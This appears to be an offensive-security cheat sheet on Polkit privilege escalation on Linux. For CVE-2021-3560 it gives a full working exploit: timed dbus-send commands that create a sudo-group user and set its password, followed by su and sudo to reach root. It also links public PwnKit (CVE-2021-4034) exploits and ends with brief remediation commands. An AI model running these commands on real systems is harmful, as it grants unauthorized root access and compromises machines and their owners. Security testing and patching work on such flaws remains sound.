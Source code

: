 ```yaml
---
title: PolKit Privilege Escalation
description: Polkit (PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged ones.
tags:
    - Linux
    - Privilege Escalation
refs:
    - https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
date: 2023-07-24
draft: false
---
```


## CVE-2021-3560

### 1. Send a dbus message to create a new user

Create a new user by sending a dbus message.

```sh
# string:tester: The new user named "tester".
# string:"Tester Account": The description of the new user.
# int32:1: sudo group
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:tester string:"Tester Account" int32:1 & sleep 0.005s; kill $!
```

Then check the new user ID (uid).

```sh
id tester

uid=1000(tester) gid=1000(tester) groups=1000(tester),27(sudo)
```

### 2. Generate a new password hash

```sh
# -6: SHA512
openssl passwd -6 password123
```

Copy the output hash.

### 3. Send a dbus message to set a new password

```sh
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'<password_hash>' string:'Ask the tester' & sleep 0.005s; kill $!
```

### 4. Switch the new user

```sh
su tester
```

Enter the password you created e.g. “password123”.  
Now change to root .

```bash
sudo -s
# or
sudo su root
```

<br />

## CVE-2021-4034 (PwnKit)

PwnKit is vulnerability of Polkit to local privilege escalation.  
There are many exploits available. Below are examples:

- [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
- [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)
- [https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)
- [https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit) (this is written by Python)

<br />

## Remediations

To avoid the vulnerability, unset setuid from the pkexec executable.

```sh
sudo chmod 0755 /usr/bin/pkexec
# or
sudo chmod 0755 `which pkexec`
```

Or simply upgrade the apt packages in most of distributions which are patched for the vulnerability.

```sh
sudo apt update && sudo apt upgrade
```

